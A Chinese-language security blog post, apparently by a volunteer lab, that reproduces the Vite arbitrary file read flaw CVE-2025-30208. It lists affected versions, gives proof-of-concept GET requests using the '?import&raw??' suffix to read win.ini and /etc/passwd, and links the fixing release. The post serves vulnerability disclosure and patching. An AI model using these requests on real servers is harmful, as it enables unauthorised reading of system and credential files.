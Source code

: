 #  【成功复现】Vite任意文件读取漏洞(CVE-2025-30208)   
原创 弥天安全实验室  弥天安全实验室   2025-03-28 20:58  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Vite是Vite开源的一种新型的前端构建工具。Vite存在访问控制错误漏洞，该漏洞源于URL中的`?raw??`或`?import&raw??`可以绕过文件访问限制，返回任意文件内容。0x02影响版本  
6.2.0 >= Vite <=6.2.2  
  
        6.1.0 >= Vite <=6.1.1   
  
6.0.0 >= Vite <=6.0.11  
  
        5.0.0 >= Vite <=5.4.14  
  
        Vite <=4.5.9  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCFXGJWS10zWLVhu9BlszJ5mhvcCoicm2RH66da5sIoib2sbXSDDibzibXoEWEBnAIB2niamibotiaWutqhQ/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCFXGJWS10zWLVhu9BlszJ511ibTA9s2jpFeSvvgGAAd8NIxicic0zJnicC6pp5gw2B7S4Fod973ROx8g/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现windowsGET /@fs/C://windows/win.ini?import&raw?? HTTP/1.1Host: best-pie.site      测试进行文件读取，通过响应判断漏洞存在。      LinuxGET /@fs/etc/passwd?import&raw?? HTTP/1.1Host: 127.0.0.13.nuclei文件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://github.com/vitejs/vite/releases/tag/v6.2.3弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
  
